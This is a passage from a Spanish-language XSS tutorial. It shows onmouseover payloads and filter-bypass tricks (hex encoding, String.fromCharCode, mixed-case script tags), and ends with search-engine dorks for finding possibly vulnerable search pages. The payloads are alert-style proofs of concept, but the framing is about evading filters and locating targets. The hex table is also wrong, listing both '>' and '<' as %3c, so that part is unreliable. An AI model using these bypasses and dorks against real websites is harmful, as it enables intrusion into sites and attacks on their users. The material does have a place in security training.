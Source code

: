 ### **OnMouseOver**

Onmousover no es una vulnerabilidad muy explotable. Se basa en realizar una acción cuando el puntero del raton pasa por encima de una posición concreta:

```
onmouseover=prompt1337
onmouseover=alert("XSS")
```

## **TECNICAS DE BYPASS DE FILTROS**

A veces una consulta sencilla de XSS simplemente no funciona. La razón de que su consulta no funciona, es porque el sitio tiene un sistema FAT o el filtro en su lugar.&#x20;

&#x20;Hay muchas maneras de pasar por los filtros XSS:

### **Hex Bypassing**

Con caracteres bloqueados como >,<  y  / es muy difícil de ejecutar una consulta de XSS pero siempre hay una solución. Puede cambiar sus caracteres, por su representación en hexadecimal. Estos pueden serle de ayuda:

```
> = %3c 
< = %3c 
/ = %2f
```

### **ASCII Bypassing**

Con una codificación ASCII, podemos utilizar el carácter  " que es bloqueado por casi todos los filtros XSS. Utilizando el comando de codificación ASCII obtenemos:

```
NO FUNCIONA EL SCRIPT:
<script>alert("XSS")</script>

FUNCIONA EL SCRIPT:
<script>alert(String.fromCharCode(88,83,83))</script>
```

### **Case-Sensitive Bypassing**

Este tipo de derivación rara vez funciona, pero siempre vale la pena un tiro. Algunos filtros se establecen en el lugar para detectar ciertas cadenas, sin embargo, las cadenas del filtro que se bloquean suelen diferenciar entre mayúsculas y minúsculas. Así que todo lo que tenemos que hacer, es ejecutar un script, con diferentes tamaños de caracteres hasta que encontremos la combinación que no está bloquada, ejemplo:

```
<ScRiPt>aLeRt("XSS")</ScRiPt>
```

Usted también puede mezclar eso con cifrado ASCII. Este tipo de derivación sólo funciona en los filtros realmente muy viejos.

### **Algunos Dorks XSS**

```
inurl:search.php?
inurl:find.php?
inurl:search.html
inurl:find.html
inurl:search.aspx
inurl:find.aspx
```
